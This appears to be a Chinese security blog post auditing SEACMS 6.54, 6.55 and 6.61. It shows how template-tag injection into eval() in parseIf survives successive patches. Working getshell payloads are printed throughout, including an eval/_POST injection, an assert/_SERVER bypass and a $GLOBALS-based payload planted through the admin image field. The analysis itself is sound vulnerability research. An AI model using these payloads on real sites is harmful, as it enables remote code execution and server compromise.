









seacms 6.54
参考链接：漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警
在之前的6.45版本中，由于服务器未对参数$order进行合理的过滤：$order = !empty($order)?$order:time;,导致$order内容替换模板$content内容：$content = str_replace("{searchpage:ordername}",$order,$content);，之后$content内容传入parseIf函数，通过正则匹配规则{if:(.*?)}(.*?){end if}匹配后的内容传入命令执行函数@eval("if(".$strIf.") { \$ifFlag=true;} else{ \$ifFlag=false;}");，最终导致了getshell
这次我继续跟踪6.54版本，首先看一下它的更新日志
1 | 更新日期：2017年8月7日 v6.54 |
审计后发现，与6.45版本不同的是，6.54版本中/search.php的第65行对参数$order进行了白名单的过滤
1 | $order = ($order == "commend" || $order == "time" || $order == "hit") ? $order : ""; |
看似成功修复了6.45版本的order参数导致的命令执行getshell漏洞，但是本质上还是未对该漏洞进行修复，order参数只是6.45版本中最好利用的命令注入点，并不代表其他参数不存在注入点
下面我们再重新梳理一遍该cms对用户输入的过滤点，首先是全局文件/include/common.php的转义处理
1 | foreach(Array('_GET','_POST','_COOKIE') as $_request) |
第二个是在/search.php本文件下对用户输入参数的过滤，包括RemoveXSS函数过滤和最多20字符的限制
1 | $jq = RemoveXSS(stripslashes($jq)); |
虽然一个参数无法绕过这些过滤，但是我们知道模板内容替换的参数不止一个，所以，可以用多个参数组合替换的方法进行getshell
下面贴上参考文章抓取的攻击payload
1 | POST |
可以看到，注入点已经不止一个，也不是之前的order
1 | function echoSearchPage() |
以上是/search.php文件中对模板内容{searchpage:}替换payload所用参数的顺序，根据上面的payload，最终替换的$content内容包含了
{if:eval(join($_POST[9]))}
然后传入parseIf函数中的命令执行函数eval，最终执行eval("if(eval(join($_POST[9])))")，下面是最终执行的效果图

虽然是通过多个参数拼接起来，但是最关键的注入点还是在于参数$searchword，所以，根据参考文章中的修复方法是过滤参数$searchword中的{searchpage:内容
1 | if(strpos($searchword,'{searchpage:')) exit; |
seacms 6.55
拿到6.55版本源码，直接按6.54的payload测试，发现行不通，看来有进行一些修复，审计完，对比6.54，一方面还是对参数$order进行了一个白名单过滤，位置在/search.php第66-67行
1 | $orderarr=array('id','idasc','time','timeasc','hit','hitasc','commend','commendasc','score','scoreasc'); |
当然，在6.54我们就已经分析过，造成漏洞的注入点不仅仅只有参数$order一个，还可以通过各个参数拼接
另外，在parseIf加入了对$content匹配内容结果数组$iar也进行了黑名单过滤
1 | foreach($iar as $v){ |
可以看到，我们之前payload的eval,_POST都在黑名单数组中，最后被替换成了@.@，所以原来payload肯定是行不通的，那么，是否真的解决了安全问题呢，其实并没有，我们仔细看黑名单内容，就能发现，其实这里只过滤了一个php执行函数eval，assert函数并没有被过滤。另外，虽然_GET,_POST,_COOKIE,_REQUEST被过滤，但是_SERVER没有被过滤。所以，过滤并不完整，还是可以通过拼接参数的方法进行getshell，只不过换一个函数和全局变量罢了，payload如下：
1 | POST /seacms6.55/search.php?phpinfo(); |
最后的执行效果：

所以，修复方法也还是需要针对参数searchword的{searchpage:内容
seacms 6.61
6.61版本同样对参数$order进行了白名单过滤
1 | $orderarr=array('id','idasc','time','timeasc','hit','hitasc','commend','commendasc','score','scoreasc'); |
并且同样在parseIf函数中对$iar匹配数组进行了黑名单过滤
1 | foreach($iar as $v){ |
我们可以发现这个版本的黑名单相对于6.55版本添加过滤了关键字assert和_SERVER
但是，在search.php中，又新添加了针对于6.54和6.55漏洞提出者提议的过滤：
1 | if(strpos($searchword,'{searchpage:')) {ShowMsg('请勿输入危险字符！','index.php','0',$cfg_search_time*1000);exit;} |
即对参数$searchword的内容{searchpage:进行了过滤
这次的过滤可谓是比较全面的了，不仅仅是参数$order，也过滤了参数拼接，看似已经很安全，但是还是有大佬挖出来了，emmm再次不得不感叹有输入的地方就可能存在漏洞，百密一疏都可能导致漏洞的发生
贴上参考链接：CVE-2018-14421——Seacms后台getshell分析
参考链接给出的漏洞处在后台管理->添加影片->图片地址
1 | {if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if} |
之后访问/detail/?1.html&a=assert&b=phpinfo();，/search.php?searchtype=5&a=assert&b=phpinfo();都可以成功getshell
先验证一下

添加后访问


都成功，说明payload有效，我们观察一下payload，其实挺像我们在6.45版本中$order参数的注入内容，所以猜测同样是替换模板进行命令执行的，但这都是猜测，要真正弄懂还是要一步步跟踪到漏洞根源
首先我们先抓包获取我们注入payload的参数名

参数名为v_pic，并且接收该参数的文件名：/backend/admin_video.php?action=save&acttype=add也知道了，那么接下来只需要在该文件中搜索关键字v_pic即可
在111行：$v_pic = cn_substrR($v_pic,255);获取该参数值，cn_substrR只是一个截取255长度的函数，不需要关注
之后在117行处：

我们可发现参数$v_pic拼接至变量$insertSql后添加到数据库中，到这里数据就添加成功了，也就是说，后台对我们输入的内容除了截取255长度的处理外无其他处理，此时，payload已经入库
之后我们在后台管理->管理影片

可以发现，我们添加的影片内容，在/detail/?1.html下可以访问，那么老样子，直接搜索关键字v_pic，在101行中搜索到：$v_pic=$row['v_pic'];，跟踪变量$row，在23行中搜索到：$row=$dsql->GetOne("Select d.*,p.body as v_playdata,p.body1 as v_downdata,c.body as v_content Fromsea_datad left joinsea_playdatap on p.v_id=d.v_id left joinsea_contentc on c.v_id=d.v_id where d.v_id='$vId'")
即从数据库中取出我们之前添加的$v_pic，之后在102行中：
1 | if(!empty($v_pic)){ |
进行熟悉的模板内容替换，果然如之前猜测的一样，再搜索关键字parseIf，在161行中搜索到：$content=$mainClassObj->parseIf($content);
接下来，只需要找到模板文件，就能弄清楚替换后内容，模板文件为：/templets/default/html/content.html，搜索关键字{playpage:pic}，在第22行中搜索到：
1 | <a class="videopic" href="{playpage:playlink}" title="{playpage:name}" style="background: url({playpage:pic}) no-repeat; background-position:50% 50%; background-size: cover;"> |
所以，我们替换的内容即为：
1 | <a class="videopic" href="{playpage:playlink}" title="{playpage:name}" style="background: url({if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}) no-repeat; background-position:50% 50%; background-size: cover;"> |
替换后进入parseIf函数匹配到的内容即为：{if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}，进入命令执行的内容为：
1 | @eval("if(1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//){ \$ifFlag=true;} else{ \$ifFlag=false;}"); |
在前面的分析中，我们知道parseIf函数中添加过滤了assert和_SERVER，但是还有个全局变量$GLOBALS未被过滤，它一个包含了全部变量的全局组合数组，变量的名字就是数组的键。也就是说$GLOBALS['_GET']就相当于$_GET ，那么$GLOBALS['_G'.'ET'][a]就相当于$_GET['a']，$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);，?a=assert&b=phpinfo();就相当于assert(phpinfo(););
最后附上参考链接的总结图：
